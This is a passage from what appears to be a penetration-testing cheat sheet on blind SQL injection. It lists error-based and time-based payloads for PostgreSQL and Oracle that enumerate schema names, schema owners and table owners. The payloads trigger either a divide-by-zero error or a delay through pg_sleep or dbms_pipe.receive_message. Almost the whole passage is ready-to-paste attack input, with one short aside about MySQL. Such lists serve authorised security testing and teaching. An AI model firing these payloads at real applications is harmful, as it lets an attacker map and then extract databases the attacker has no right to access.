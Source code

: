 </aside>

### PostgreSQL (error based) (schema names)

```sql
(SELECT CASE WHEN (SELECT MAX(RN) AS RN FROM (SELECT ROW_NUMBER() OVER (ORDER BY table_schema) AS RN FROM (SELECT DISTINCT(table_schema) AS table_schema FROM information_schema.tables) AS THING) AS THING)=3 THEN 1/(SELECT 0) ELSE NULL END)
```

### PostgreSQL (time based) (schema names)

```sql
(SELECT CASE WHEN (SELECT MAX(RN) AS RN FROM (SELECT ROW_NUMBER() OVER (ORDER BY table_schema) AS RN FROM (SELECT DISTINCT(table_schema) AS table_schema FROM information_schema.tables) AS THING) AS THING)=3 THEN (SELECT pg_sleep(5)) ELSE NULL END)
```

### PostgreSQL (error based) (schema owners)

```sql
SELECT CASE WHEN (SELECT MAX(RN) FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN FROM (SELECT nspname AS schema_name, pg_roles.rolname AS owner_name FROM pg_namespace JOIN pg_roles ON pg_namespace.nspowner = pg_roles.oid) AS thing) AS subquery)=6 THEN 1/(SELECT 0) ELSE NULL END
```

### PostgreSQL (time based) (schema owners)

```sql
SELECT CASE WHEN (SELECT MAX(RN) FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN FROM (SELECT nspname AS schema_name, pg_roles.rolname AS owner_name FROM pg_namespace JOIN pg_roles ON pg_namespace.nspowner = pg_roles.oid) AS thing) AS subquery)=6 THEN (SELECT pg_sleep(10)) ELSE NULL END
```

<aside>
💡 In MySQL there is no direct way to determine ownership of tables or schemas like in the other DBMS’s.

</aside>

## Enumerate Table Owners

### Oracle (error based)

```sql
(SELECT CASE WHEN SUBSTR((SELECT OWNER FROM (SELECT ROWNUM RN, OWNER FROM (SELECT DISTINCT OWNER FROM (SELECT ROWNUM RN, OWNER FROM ALL_TABLES))) WHERE RN = 1),1,1)='A' THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL)
```

### Oracle (time based)

```sql
(SELECT CASE WHEN SUBSTR((SELECT OWNER FROM (SELECT ROWNUM RN, OWNER FROM (SELECT DISTINCT OWNER FROM (SELECT ROWNUM RN, OWNER FROM ALL_TABLES))) WHERE RN = 1),1,1)='A' THEN dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM DUAL)
```
